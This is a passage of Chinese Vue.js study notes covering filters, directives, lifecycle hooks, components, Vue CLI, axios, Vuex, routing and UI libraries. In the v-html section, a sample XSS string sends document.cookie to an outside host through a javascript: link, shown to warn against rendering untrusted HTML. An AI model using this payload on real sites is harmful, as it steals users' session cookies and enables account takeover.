		<input type="checkbox" v-model="userInfo.agree">阅读并接受<a href="http://www.atguigu.com">《用户协
议》</a>
		<button>提交</button>
	</form>
</div>
```

```js
new Vue({
	el:'#root',
	data:{
		userInfo:{
			account:'',
			password:'',
			age:18,
			sex:'female',
			hobby:[],
			city:'beijing',
			other:'',
			agree:''
		}
	},
	methods: {
		demo(){
			console.log(JSON.stringify(this.userInfo))
		}
	}
})
```

### 1-15 过滤器

#### 1. 定义

- 对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）。

#### 2. 语法
1. 注册过滤器：`Vue.filter(name,callback) --- 全局` 或 `new Vue{filters:{}} --- 局部`
2. 使用过滤器：`{{ xxx | 过滤器名}} --- 插值语法` 或  `v-bind:属性 = "xxx | 过滤器名" --- v-bind`

#### 3. 备注
1. 过滤器也可以接收额外参数、多个过滤器也可以串联
2. 并没有改变原本的数据, 是产生新的对应的数据

一个网站 `BootCDN` ：有很多免费的第三方库，比如处理日期的：moment.js 或 day.js

```html
<div id="root">
	<h2>显示格式化后的时间</h2>
	<!-- 计算属性实现 -->
	<h3>现在是：{{fmtTime}}</h3>
	<!-- methods实现 -->
	<h3>现在是：{{getFmtTime()}}</h3>
	<!-- 过滤器实现 -->
	<h3>现在是：{{time | timeFormater}}</h3>
	<!-- 过滤器实现（传参） -->
	<h3>现在是：{{time | timeFormater('YYYY_MM_DD') | mySlice}}</h3> 
    <!-- 一级一级往后传，time 传给 timeFormater，timeFormater 的返回结果再传给 mySlice -->
	<h3 :x="msg | mySlice">尚硅谷</h3>
</div>
<div id="root2">
	<h2>{{msg | mySlice}}</h2>
</div>
```

```js
//全局过滤器，#root2容器中也能用
Vue.filter('mySlice',function(value){
	return value.slice(0,4) // 截取前4个字符
})
		
new Vue({
	el:'#root',
	data:{
		time:1621561377603, //时间戳
		msg:'你好，尚硅谷'
	},
	computed: {
		fmtTime(){
			return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
		}
	},
	methods: {
		getFmtTime(){
			return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
		}
	},
	//局部过滤器，只能在#root这个容器中使用
	filters:{
         // 有传入的str则以传入的str的格式为准，否则以这个为准
		timeFormater(value,str='YYYY年MM月DD日 HH:mm:ss'){ 
			// console.log('@',value)
			return dayjs(value).format(str)
		}
	}
})
```

### 1-16 内置指令

#### 1. v-text指令

- 我们学过的指令：
  		v-bind	: 单向绑定解析表达式, 可简写为 :xxx
    		v-model : 双向数据绑定
    		v-for  	 : 遍历数组/对象/字符串
    		v-on       : 绑定事件监听, 可简写为@
    		v-if 	    : 条件渲染（动态控制节点是否存存在）
    		v-else    : 条件渲染（动态控制节点是否存存在）
    		v-show  : 条件渲染 (动态控制节点是否展示)
- v-text指令：
    		1. 作用：向其所在的节点中渲染文本内容。
        		2. 与插值语法的区别：v-text会`替换掉节点中的内容`，{{xx}}则不会。

```html
<div>你好，{{name}}</div>
<div v-text="name"></div>
<div v-html="str"></div>
```

```js
name:'你好啊',
str:'<h3>你好啊！</h3>',
str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
```

#### 2. v-html指令

1. 作用：向指定节点中渲染包含html结构的内容。

2. 与插值语法的区别：
   			(1). v-html会替换掉节点中所有的内容，{{xx}}则不会。
      			(2). v-html可以识别html结构。

3. 严重注意：v-html有安全性问题！！！！
   			(1). 在网站上动态渲染任意HTML是非常危险的，容易导致`XSS攻击`。
      			(2). 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

   ![cookie1](.\images\cookie1.png)

   ![cookie2](.\images\cookie2.png)

   ![cookie3](.\images\cookie3.png)

   一旦被别人获取到你的cookie（包含身份验证信息），他就能冒充你登录这个账号，很危险

   `document.cookie`可以获取cookie，不过不能获取`HttpOnly`打了√的cookie信息

#### 3. v-cloak指令（没有值）

1. 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
2. 使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}（闪现）的问题。

```html
<style>
	[v-cloak]{
		display:none;
	}
</style>

<h2 v-cloak>{{name}}</h2>
```

#### 4. v-once指令（没有值）

1. v-once所在节点在初次动态渲染后，就视为静态内容了。
2. 以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。

```html
<h2 v-once>初始化的n值是:{{n}}</h2>
<h2>当前的n值是:{{n}}</h2>
<button @click="n++">点我n+1</button>
```

#### 5. v-pre指令（没有值）

1. 跳过其所在节点的编译过程。
2. 可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。

```html
<h2 v-pre>Vue其实很简单</h2>
<h2 >当前的n值是:{{n}}</h2>
<button @click="n++">点我n+1</button>
```

### 1-17 自定义指令

#### 1. 定义语法

1. 局部指令：

   ```
   new Vue({								new Vue({
   	directives:{指令名:配置对象}   或   		directives{指令名:回调函数}
   }) 										})
   ```

2. 全局指令：

   ```
   Vue.directive(指令名,配置对象)     或        Vue.directive(指令名,回调函数)
   ```

#### 2. 配置对象中常用的3个回调

```
1. bind：指令与元素成功绑定时调用。
2. inserted：指令所在元素被插入页面时调用。
3. update：指令所在模板结构被重新解析时调用。
```

#### 3. 备注

 	1. 指令定义时不加v-，但使用时要加v-；
 	2. 指令名如果是多个单词，要使用`kebab-case`命名方式，不要用`camelCase`命名。并且若命名中有`-`，则必须用引号引起来（也就是用标准写法）

```
需求1：定义一个v-big指令，和v-text功能类似，但会把绑定的数值放大10倍。
需求2：定义一个v-fbind指令，和v-bind功能类似，但可以让其所绑定的input元素默认获取焦点。
```

```html
<!-- <h2>放大10倍后的n值是：<span v-big-number="n"></span> </h2> -->
<h2>放大10倍后的n值是：<span v-big="n"></span> </h2>
<button @click="n++">点我n+1</button>
<input type="text" v-fbind:value="n">
```

```js
//定义全局指令
Vue.directive('fbind',{
	//指令与元素成功绑定时（一上来）
	bind(element,binding){
		element.value = binding.value
	},
	//指令所在元素被插入页面时
	inserted(element,binding){
		element.focus()
	},
	//指令所在的模板被重新解析时
	update(element,binding){
		element.value = binding.value
	}
})

new Vue({
    ...
    directives: {
        //big函数何时会被调用？1.指令与元素成功绑定时（一上来）。2.指令所在的模板被重新解析时。
        /* 'big-number'(element,binding){ //会传入两个值 element-元素(span) 和 binding-绑定的值(n)
        	element.innerText = binding.value * 10
        }, */
        big(element, binding) { // 此处是个函数，其实就是bind()和update()这两个回调
            console.log('big', this) //注意此处的this是window
            element.innerText = binding.value * 10
        },
        fbind: { // 此处是个对象，包含三个回调
            //指令与元素成功绑定时（一上来）
            bind(element, binding) {
                element.value = binding.value
            },
            //指令所在元素被插入页面时
            inserted(element, binding) {
                element.focus() // 让其所绑定的input元素获取焦点
            },
            //指令所在的模板被重新解析时
            update(element, binding) {
                element.value = binding.value
            }
        }
    }
})
```

### 1-18 生命周期

#### 1. 引出生命周期

1. 又名：生命周期回调函数、生命周期函数、生命周期钩子（常用说法）。
2. 是什么：Vue在关键时刻帮我们调用的一些特殊名称的`函数`。
3. 生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的。
4. 生命周期函数中的this指向是`vm` 或 `组件实例对象`。

```html
<div id="root">
	<h2 :style="{opacity}">欢迎学习Vue</h2> <!-- 这里因为属性值属性名都是opacity，所以用了简写形式 -->
</div>
```

```js
new Vue({
    el: '#root',
    data: {
        opacity: 1
    },
    methods: {
        /* 如果把定时器写在这里，且在模板中用{{change()}}调用就会导致不断开启新的定时器，因为改变了opacity，模板就会重新渲染，于是又再次调用该方法，不断重复这个过程 */
    },
    //Vue完成模板的解析并把初始的真实DOM元素放入页面后（挂载完毕）调用mounted
    mounted() {
        console.log('mounted', this)
        setInterval(() => {
            this.opacity -= 0.01
            if (this.opacity <= 0) this.opacity = 1
        }, 16)
    },
})
//通过外部的定时器实现（不推荐）
/* setInterval(() => {
	vm.opacity -= 0.01
	if(vm.opacity <= 0) vm.opacity = 1
},16) */
```

#### 2. 分析生命周期

- 一共8个（4对）生命周期钩子，其实还有3个生命周期钩子没体现   ---  nextTick，activated，deactivated  ---

![生命周期](.\images\生命周期.png)

```html
<div id="root" :x="n">
    <h2 v-text="n"></h2>
    <h2>当前的n值是：{{n}}</h2>
    <button @click="add">点我n+1</button>
    <button @click="bye">点我销毁vm</button>
</div>
```

```js
new Vue({
    el: '#root',
    // 若把这个template当模板，则会把上面的div整个都替换掉，即包括<div id="root" :x="n"></div>容器
    // template:`
    // 	<div>
    // 		<h2>当前的n值是：{{n}}</h2>
    // 		<button @click="add">点我n+1</button>
    // 	</div>
    // `,
    data: {
        n: 1
    },
    methods: {
        add() {
            console.log('add')
            this.n++
        },
        bye() {
            console.log('bye')
            this.$destroy()
        }
    },
    watch: {
        n() {
            console.log('n变了')
        }
    },
    beforeCreate() {
        console.log('beforeCreate')
    },
    created() {
        console.log('created')
    },
    beforeMount() {
        console.log('beforeMount')
    },
    mounted() {
        console.log('mounted');
        // console.log(this.$el instaceof HTMLElement); // 这句话可以检测this.$el是不是一个真实DOM
    },
    beforeUpdate() {
        console.log('beforeUpdate');
        // debugger; // 加上这句可以在这里设置断点
    },
    updated() {
        console.log('updated')
    },
    beforeDestroy() {
        console.log('beforeDestroy')
    },
    destroyed() {
        console.log('destroyed')
    },
})
```

#### 3. 总结

1. 常用的生命周期钩子：
     		1. mounted: 发送ajax请求、启动定时器、绑定自定义事件、订阅消息等`【初始化操作】`。
          		2. beforeDestroy: 清除定时器、解绑自定义事件、取消订阅消息等`【收尾工作】`。
2. 关于销毁Vue实例
     		1. 销毁后借助Vue开发者工具看不到任何信息。
          		2. 销毁后自定义事件会失效，但原生DOM事件依然有效。(比如@click绑定的事件)
          		3. 一般不会在beforeDestroy操作数据，因为即便操作数据，也不会再触发更新流程了。



## 二、 Vue组件化编程

###  2-1. 模块与组件、模块化与组件化

#### 1.  模块 

1. 理解: 向外提供特定功能的 js 程序, 一般就是一个 js 文件 
2. 为什么要用模块: js 文件很多很复杂 
3. 作用: 复用 js, 简化 js 的编写, 提高 js 运行效率

#### 2. 组件 

1. 理解: 用来实现局部(特定)功能效果的代码集合(html/css/js/image…..) 
2. 为什么: 一个界面的功能很复杂
3. 作用: 复用编码, 简化项目编码, 提高运行效率

#### 3. 模块化

- 当应用中的 js 都以模块来编写的, 那这个应用就是一个模块化的应用

#### 4. 组件化

- 当应用中的功能都是多组件的方式来编写的, 那这个应用就是一个组件化的应用

### 2-2 非单文件组件

#### 1. 基本使用

1. Vue中使用组件的三大步骤
   - 定义组件(创建组件)
   - 注册组件
   - 使用组件(写组件标签)

2. 如何定义一个组件？

   - 使用`Vue.extend(options)`创建，其中options和new Vue(options)时传入的那个options几乎一样，但也有点区别；
     区别如下：
       		1. `el不要写`，为什么？ ——— 最终所有的组件都要经过一个vm的管理，由vm中的el决定服务哪个容器。
       		2. `data必须写成函数`，为什么？ ———— 避免组件被复用时，数据存在引用关系。(写成函数，那每次调用都会返回一个新的对象，组件被复用时就不会存在冲突)
   - 备注：使用`template`可以配置组件结构（即HTML）。

3. 如何注册组件？

   1.局部注册：靠new Vue的时候传入components选项
   2.全局注册：靠Vue.component('组件名',组件)

4. 编写组件标签

   > <school></school>

```html
<div id="root">
	<hello></hello> <!-- 这里用的是小写，但开发者工具中会自动首字母大写 -->
	<h1>{{msg}}</h1>
	<!-- 第三步：编写组件标签 -->
	<school></school>
	<!-- 第三步：编写组件标签 -->
	<student></student>
</div>
<div id="root2">
	<hello></hello>
</div>
```

```js
//第一步：创建school组件，这里定义组件时只是临时起的名字，真正当标签用时的名字是在components中注册的
const school = Vue.extend({
	template:`
		<div class="demo">
			<h2>学校名称：{{schoolName}}</h2>
			<h2>学校地址：{{address}}</h2>
			<button @click="showName">点我提示学校名</button>	
		</div>
	`,
	// el:'#root', //组件定义时，一定不要写el配置项，因为最终所有的组件都要被一个vm管理，由vm决定服务于哪个容器。
	data(){
		return {
			schoolName:'尚硅谷',
			address:'北京昌平'
		}
	},
	methods: {
		showName(){
			alert(this.schoolName)
		}
	},
})
//第一步：创建hello组件
const hello = Vue.extend({
	template:`
		<div>	
			<h2>你好啊！{{name}}</h2>
		</div>
	`,
	data(){
		return {
			name:'Tom'
		}
	}
})
		
//第二步：全局注册组件
Vue.component('hello',hello)
//创建vm
new Vue({
	el:'#root',
	data:{
		msg:'你好啊！'
	},
	//第二步：注册组件（局部注册）
	components:{ // 这里也是用了对象的简写形式 shool:shool → shool(当然属性名可以再定义为别的，但没必要)
		school,
		student
	}
})
new Vue({
	el:'#root2',
})
```

#### 2. 几个注意点

1. 关于组件名
   - 一个单词组成：
     		1）第一种写法(首字母小写)：school
       		2）第二种写法(首字母大写)：School（开发中常用）
   - 多个单词组成：
     		1）第一种写法(kebab-case命名)：my-school
       		2）第二种写法(CamelCase命名)：MySchool (需要Vue脚手架支持，否则会自动将标签转为小写)（常用）
   - 备注：
     		1）组件名尽可能回避HTML中已有的元素名称，例如：h2、H2都不行。
       		2）可以使用`name配置项`指定组件在`开发者工具`中呈现的名字。
2. 关于组件标签
   - 第一种写法：<school> </school>
   - 第二种写法：<school/>
   - 备注：不用使用脚手架时，<school/>会导致后续组件不能渲染。
3. 一个简写方式
   - `const school = Vue.extend(options)` 可简写为：`const school = options`

#### 3. 组件的嵌套

- 一般都会用一个`app`组件来管理所有的组件

```html
<!-- 准备好一个容器-->
<div id="root"></div>
```

```js
//定义student组件，必须在school之前定义，因为school要用
const student = Vue.extend({
	name:'student',
	template:`
		<div>
			<h2>学生姓名：{{name}}</h2>	
			<h2>学生年龄：{{age}}</h2>	
		</div>
	`,
	data(){
		return {
			name:'尚硅谷',
			age:18
		}
	}
})	
//定义school组件
const school = Vue.extend({
	name:'school',
	template:`
		<div>
			<h2>学校名称：{{name}}</h2>	
			<h2>学校地址：{{address}}</h2>	
			<student></student>
		</div>
	`,
	data(){
		return {
			name:'尚硅谷',
			address:'北京'
		}
	},
	//注册组件（局部）
	components:{
		student
	}
})
//定义hello组件
const hello = Vue.extend({
	template:`<h1>{{msg}}</h1>`,
	data(){
		return {
			msg:'欢迎来到尚硅谷学习！'
		}
	}
})
		
//定义app组件
const app = Vue.extend({
	template:`
		<div>	
			<hello></hello>
			<school></school>
		</div>
	`,
	components:{
		school,
		hello
	}
})
//创建vm
new Vue({
	template:'<app></app>', // 写在这里的好处是：让上面的#root容器看起来干干净净
	el:'#root',
	//注册组件（局部）
	components:{app}
})
```

#### 4. VueComponent

1. school组件本质是一个名为`VueComponent`的构造函数，且不是程序员定义的，是`Vue.extend`生成的。
2. 我们只需要写<school/>或<school></school>，Vue解析时会帮我们创建school组件的实例对象，
   	即Vue帮我们执行的：`new VueComponent(options)`。
3. 特别注意：每次调用Vue.extend，返回的都是一个`全新的VueComponent`！！！！
4. 关于this指向：
   - 组件配置中：
     data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是【VueComponent实例对象】。
   - new Vue(options)配置中：
     data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是【Vue实例对象】。
5. VueComponent的实例对象，以后简称`vc`（也可称之为：组件实例对象）。
   	Vue的实例对象，以后简称`vm`。

#### 5. 一个重要的内置关系

1. 一个重要的内置关系：`VueComponent.prototype.__proto__ === Vue.prototype`
2. 为什么要有这个关系：让组件实例对象（vc）可以访问到 Vue原型上的属性、方法。

![分析Vue与VueComponent的关系](.\images\分析Vue与VueComponent的关系.png)

#### 6. others

1. 模板编写没有提示 
2. 没有构建过程, 无法将 ES6 转换成 ES5 
3. 不支持组件的 CSS 
4. 真正开发中几乎不用

### 2-3 单文件组件

- 要让VScode认识.vue文件，高亮显示代码，须安装插件`Vtur`，只要打`<v`回车，就可以搭建一个默认结构

#### 1.  一个.vue 文件的组成(3 个部分)

1. 模板页面

   ```vue
   <template>
   	页面模板
   </template>
   ```

1. JS 模块对象

   ```vue
   <script>
       export default {
           data() {return {}}, 
           methods: {}, 
           computed: {}, 
           components: {}
       }
   </script>
   ```

2. 样式

   ```vue
   <style>
   	样式定义
   </style>
   ```

#### 2. 基本使用

1. 引入组件 `import School from './components/School'`
2. 映射成标签 `components:{School}`
3. 使用组件标签 `<School></School>`



## 三、Vue脚手架（Vue CLI）

### 3-1  初始化脚手架

#### 1. 简介

- Vue 脚手架是 Vue 官方提供的标准化开发工具（开发平台）。
- 官网 [https://cli.vuejs.org/zh/](https://cli.vuejs.org/zh/)
- cli：命令行接口（command-line interface）

#### 2. 步骤

1. （仅第一次执行）：全局安装@vue/cli。

   `npm install -g @vue/cli`

2. 切换到你要创建项目的目录，然后使用命令创建项目(eg. 创建项目hello-world)

   `vue create hello-world`

3. 启动项目（开启内置服务器8080用以支持项目运行）

   `npm run serve`
   
4. 打包项目，将完成的项目打包生成一个dist文件夹（包含html，css，js，favicon.ico文件等静态资源）

   `npm run build`

### 3-2 本章笔记的核心内容在另一个文件里 （Vue 脚手架）

### 3-3 补充

#### 1. 指令

- 如出现下载缓慢请配置 npm 淘宝镜像：

  `npm config set registry https://registry.npm.taobao.org`

- Vue 脚手架隐藏了所有 webpack 相关的配置，若想查看具体的 webpakc 配置， 请执行：

  `vue inspect > output.js`

  就会导出一个output.js文件以便查看配置

- 只要在当前文件夹的url中输入cmd，就可以在当前目录打开命令行工具

- 在当前目录下新建一个文件夹

  `mkdir 文件夹名`

- 清空历史命令

  `cls`

- 运行 npm run serve 之后按 ctrl+c ，此时回答y/n都会停止当前运行的工程，一般再按一次ctrl+c

- 在VScode中打开终端，可以在菜单栏终端→新终端打开，也可以按快捷键，点击终端旁边的+号可以继续写指令，不用把工程给停掉

- 查看webpack的所有版本（目前vue用的是4的最新版本）

  `npm view webpack versions`

- 查看less-loader的所有版本

  `npm view less-loader versions

  要用less语法写样式，须先安装less-loader插件，最新的less-loader是为5.xxx版本的webpack服务的，所以建议安装7版本的，运行如下命令就会自动安装7里的最新版本

  `npm i less-loader@7`

#### 2. 生成id的方法

1. `uuid库`可以生成全球唯一的字符串，这个库很大

2. `nanoid`是uuid的迷你版，库没这么大，生成的字符串也没这么长这么复杂，采用分别暴露

   安装指令： `npm i nanoid`

#### 3. VScode插件

1. `Vetur` 让VScode认识vue文件，代码高亮显示
2. `Vue 3 Snippets` 写vue代码会有代码提示
3. `Open in External App` 用外置的app打开文件，就可以选中文件，右键选择用外置app打开文件，就可以快速查看了

#### 4. 一些方法

1. `str.trim()` ：过滤空格

2. `arrs.forEach( arr => {...} )` ：遍历数组arr

3. `arrs.filter( arr => {...} )` ：过滤数组，返回 返回值为true的arr集合，当`...`只有一条语句时，`{}`可省略

4. `arrs.reduce()` ：用于做条件统计

   ```js
   doneTotal() { // 统计完成的任务数
   	return this.todos.reduce( (pre, todo) => pre 
   + (todo.done ? 1 : 0), 0 ) // (回调函数，初始值)
   },
   ```

5. `arrs.indexOf()`：返回在数组中可以找到一个给定元素的第一个索引，如果不存在，则返回-1。

   `arrs.lastIndexOf()`：返回指定元素（也即有效的 JavaScript 值或变量）在数组中的最后一个的索引，如果不存在则返回 -1，和indexOf()一样第一个参数是待查找元素，第二个参数可选，是开始查找的位置

6. `map.get( key )`：返回对象中的一个指定元素，key是键，返回的是其对应的值，若没能找到，则返回-1

   `map.set( key )`：为对象添加或更新一个指定了键（`key`）和值（`value`）的（新）键值对。

   ```JS
   const map = new Map();
   map.set('bar', 'foo');
   console.log(map.get('bar')); // "foo"
   ```

7. `map.entries( key )`：返回一个新的包含 `[key, value]` 对的 `Iterator` 对象，返回的迭代器的迭代顺序与 `map` 对象的插入顺序相同。

   ```JS
   const iterator = map.entries();
   for(const mp of iterator) {
       console.log(mp); // Array ["bar", "foo"]
   }
   ```

#### 5. 第三方库

- 引入库的时候，如果是第三方的往上放，自己写的往下放
- `npm`：有很多插件，直接搜索即可
  1. `animate.css` ：动画效果

### 3-4 一些效果的实现

#### 1. 点击编辑变成文本框

- 在子组件中，准备一个span和一个input文本框，根据isEdit属性值选择显示哪个，然后绑定点击事件，编写对应的事件处理回调函数
- 因为一开始数据中没有isEdit，所以其值为false，默认只显示span

```html
<span v-show="!todo.isEdit">{{todo.title}}</span>
<input 
	type="text" 
	v-show="todo.isEdit"
	:value="todo.title"
	@blur="handleBlur(todo, $event)"
	ref="inputTitle"
>
<button class="btn btn-edit" @click="handleEdit(todo)">编辑</button>
```

```js
handleEdit(todo) {
	if(todo.hasOwnProperty('isEdit')) { // 判断todo中有无isEdit属性
		todo.isEdit = true
	} else {
		this.$set(todo, 'isEdit', true)
	}
	this.$nextTick(function() { // 在下一次 DOM 更新结束后执行其指定的回调
		this.$refs.inputTitle.focus() // 获取焦点
	})
},
handleBlur(todo, e) { // 失去焦点的事件处理函数
	todo.isEdit = false
	if(!e.target.value.trim()) {
		return alert("输入不能为空")
	}
	this.$bus.$emit('updateTodo', todo.id, e.target.value) // 使用App组件中的方法
}
```

在App组件中编写更新todos数据的函数

```js
updateTodo(id, title) {
	this.todos.forEach(todo => {
		if(todo.id == id) {
			todo.title = title
		}
	})
}
```

#### 2. 动画效果

```vue
<!-- MyList.vue中用transition-group标签把MyItem包裹起来 -->
<transition-group name="todo">
	<MyItem 
		v-for="todo in todos" 
		:key="todo.id"
		:todo="todo"
	/>
</transition-group>
```

## 四、Vue中的ajax

运行 `node server1` ：得到 `服务器server1启动成功了,请求学生信息地址为：http://localhost:5000/students`

### 4-1 常用的发送一个ajax请求的方式

1. xhr：`new XMLHttpRequest()`   `xhr.open()`   `xhr.send()` 是鼻祖，但实际开发中不常用，一般都是对它进行二次封装，比如 jQuery，axios，v-resource
2. jQuery：`$get` `$post` 实际开发中也不常用，其核心是封装DOM操作，而用 react 和 vue 的目的就是减少DOM操作
3. axios：最常用
4. fetch：常用，和 xhr 平级，xhr是js内置的（或者说是window里面有`XMLHttpRequest()`方法），直接就能new一个xhr来用；而fetch也是，window内置对象中直接就有一个fetch方法，直接就能用，直接就能发送请求，且也是promise风格，但它会把返回的数据包两层promise，且其兼容性稍差，IE上不可用
5. v-resource：vue 插件库, vue1.x 使用广泛，官方已不维护，交由其他团队维护，了解即可

综上，推荐在vue中用axios，并且vue官方也是这么推荐的

### 4-2 axios

1. 安装和引入axios：

   ```
   npm i axios
   ```

   ```js
   import axios from 'axios'
   ```

2. 语法：`axios.get(url).then(respond => {})`

3. 跨域：即违背了同源策略

   `http://localhost:8080/` 

   `http 协议名`  `localhost 主机名` `8080 端口号`

   同源策略规定，协议名、主机名、端口号必须一致，而数据请求中服务器端口号5000与8080不一致，于是浏览器发送了请求→服务器收到了并且返回了→但浏览器没给前端，前端拿不到

4. 如何解决跨域问题

   - cors：需麻烦后端人员
   - jsonp：巧妙借用了script src引入资源时不受同源策略限制的特点，但前后端都要麻烦，且只能解决get请求问题，post之类的还是不行（开发中很少用，但面试中常问）
   - 配置一个代理服务器：常用，代理服务器的端口号同前端的一致，浏览器8080 - 代理服务器8080 - 数据请求服务器5000，那么浏览器向代理服务器请求数据就没有跨域问题了，而服务器与服务器之间不用ajax，用传统的http请求就好了

5. 开启8080代理服务器

   - nginx：学习成本高一些，且需要对后端有一定的了解
   - vue-cli：简单一些，在vue.config.js中配置，因为修改了脚手架配置，所以配置后记得把脚手架停掉重新运行

6. 更多详情查看另一个文件中的'Vue中的ajax'

### 4-3 vue-resource使用步骤

1. 安装、引入和使用

   ```
   npm i vue-resource
   ```

   ```js
   import vueResource from 'vue-resource' 
   // 因为vue-resource采用的是默认暴露，所以vueResource这个名字是可以自己定的，不过就写成这样比较好
   Vue.use(vueResource)
   // 使用之后，整个应用当中所有vue实例(vm)和所有组件实例对象(vc)都多了个东东 $http
   ```

2. 和ajax的使用几乎一样，只需在请求数据时，将axios改为this.$http

   语法：`this.$http.get(url).then(respond => {})`

### 4-4  本章笔记的核心内容在另一个文件里 （Vue中的ajax）

### 4-5 github 用户搜索案例（axios实现）

1. 拆分组件：`Search` 和 `List` 两个组件

2. 引入bootstrap.css文件：

   - 在`main.js`中引入 --main.js是入口文件，不建议在这引入

   - 在`App.vue`中引入  --须先在src中创建一个assets静态资源文件夹-css文件夹-把bootstrap.css文件放进去，引入`import './assets/css/bootstrap.css'`，但是这个css样式中用到了Bootstrap自带的fonts文件夹里的资源，所以不引入的话会报错，但是这个案例中没有用到fonts，没必要专门去引入font，此时建议第三种方式

   - 在`index.html`中引入  --须先在public中创建一个css文件夹，把bootstrap.css文件放进去

     ```html
     <!-- 引入第三方样式 -->
     <link rel="stylesheet" href="<%= BASE_URL %>css/bootstrap.css">
     ```

3. 请求数据：

   - 接口地址：`https://api.github.com/search/users?q=xxx`

   - 因为是List要展示数据，所以要将数据交给List

   - 先在Search中请求数据，然后将请求成功后的数据交给List

   ```js
   searchUsers(){
   	//请求前更新List的数据，以对象形式接受更符合语义化规范，也更方便
   	this.$bus.$emit('updateListData',{isFirst:false,isLoading:true,errMsg:'',users:[]}) //顺序可调
   	axios.get(`https://api.github.com/search/users?q=${this.keyWord}`).then(
   		response => {
   			//请求成功后更新List的数据，因为isFirst只在最初请求数据时修改一次即可，所以这里无须传这个值
   			this.$bus.$emit('updateListData',{isLoading:false,errMsg:'',users:response.data.items})
   		},
   		error => {
   			//请求后更新List的数据，同理无须传isFirst值
   			this.$bus.$emit('updateListData',{isLoading:false,errMsg:error.message,users:[]})
   		}
   	)
   }
   ```

   ```js
   data() {
   	return {
   		info:{
   			isFirst:true,
   			isLoading:false,
   			errMsg:'',
   			users:[]
   		}
   	}
   },
   mounted() {
   	this.$bus.$on('updateListData',(dataObj)=>{
   		this.info = {...this.info,...dataObj} // 合并这两个对象里的数据，两者都有的以后者为准
   	})
   },
   ```

## 五、Vuex

### 5-1 Vuex工作原理

![vuex](.\images\vuex.png)

![vuex过程解析](.\images\vuex过程解析.png)

### 5-2 求和案例

1. 选项里的value值会被解析成字符串（不管加不加引号），解决方案如下：

   ```html
   <!-- 1. 在v-model后加上.number（推荐这个，简单）;  
   	 2. 给每个value加:绑定，那么就会把引号里的解析成js语法 -->
   <select v-model.number="n">
   	<option value="1">1</option>
   	<option value="2">2</option>
   	<option value="3">3</option>
   </select>
   ```

2. Vuex版本见另一个文件Vuex

### 5-3 开发者工具Devtools的使用

![Vuex开发者工具](.\images\Vuex开发者工具.png)

### 5-4 本章笔记的核心内容在另一个文件里 （Vuex）

### 5-5 补充

1. actions中的上下文context：包含dispatch、commit、state等可能会用到的东西
   - dispatch：比如处理太繁琐，将一些事情派遣给另一个函数`dispatch('jiaOdd', value)`
   - commit方法：调用mutations中的函数`context.commit('JIA',value)`
   - state：读取状态 `context.state.sum`，其实在这里也能操作数据，但不建议这么做，因为不通过mutations的话开发者工具就捕获不到动作了

2. 为什么要把业务逻辑写在actions，而不直接写在组件里？
   - 因为写在actions里，那这个工程里的所有vm和vc就都能复用这个业务逻辑，尤其是当业务逻辑复杂时

## 六、路由

### 6-1  SPA单页面应用

1. 概念：单页Web应用（single page web application，SPA），就是只有一张Web页面的应用，是加载单个HTML 页面并在用户与应用程序交互时动态更新该页面的Web应用程序。浏览器一开始会加载必需的HTML、CSS和JavaScript，所有的操作都在这张页面上完成，都由JavaScript来控制。用 JavaScript 动态的变换 HTML（采用的是 div 切换显示和隐藏），而不会重新加载或跳转页面

![单页面应用](.\images\单页面应用.png)

2. 特点：

   - 单页 Web 应用（single page web application，SPA）：整个应用只有一个完整的页面。

   - 速度：更好的用户体验，让用户在web app感受native app的速度和流畅
   - MVVM：经典MVVM开发模式，前后端各负其责
   - ajax：重前端，业务逻辑全部在本地操作，数据都需要通过AJAX同步、提交
   - 路由：在URL中采用#号来作为当前视图的地址,改变#号后的参数，页面并不会重载。点击页面中的导航链接不会刷新页面，只会做页面的局部更新。 

## 七、Vue UI 组件库

### 7-1 移动端常用 UI 组件库 

1. Vant  https://youzan.github.io/vant
2. Cube UI https://didi.github.io/cube-ui 
3. Mint UI http://mint-ui.github.io 

### 7-2 PC 端常用 UI 组件库

1. Element UI https://element.eleme.cn   (国产，饿了么打造的，基于vue框架)
2. IView UI https://www.iviewui.com （基于vue）
3. Ant Design Vue https://2x.antdv.com/docs/vue/getting-started-cn （蚂蚁金服打造，基于vue）

### 7-3  使用

```js
//完整引入
//引入ElementUI组件库
// import ElementUI from 'element-ui';
//引入ElementUI全部样式
// import 'element-ui/lib/theme-chalk/index.css';

//按需引入
import { Button,Row,DatePicker } from 'element-ui';

//应用ElementUI
// Vue.use(ElementUI);
Vue.component('atguigu-button', Button);
Vue.component('atguigu-row', Row);
Vue.component('atguigu-date-picker', DatePicker);
```

### 7-4 建议

平时可以打开那些组件网站看看有哪些组件，要用的时候就知道去哪里找，有个印象

## 八、Vue3

### 1. 笔记见`Vue3快速上手.md`

### 2. 补充

1. $attrs：vc中的一个属性，是个对象，包含父组件传的值（未用props接收的，props接收了的值不会出现在$attrs中）
2. $slot：父组件在子组件标签写的内容（即插槽的内容）会以数组的形式被保存在子组件的$slot属性中

3. 遮罩层样式：

   ```css
   .mask{
   	position: absolute;
   	top: 0; bottom: 0; left: 0; right: 0; /*让遮罩层占满整个body*/
   	background-color: rgba(0, 0, 0, 0.5);
   }
   ```

   
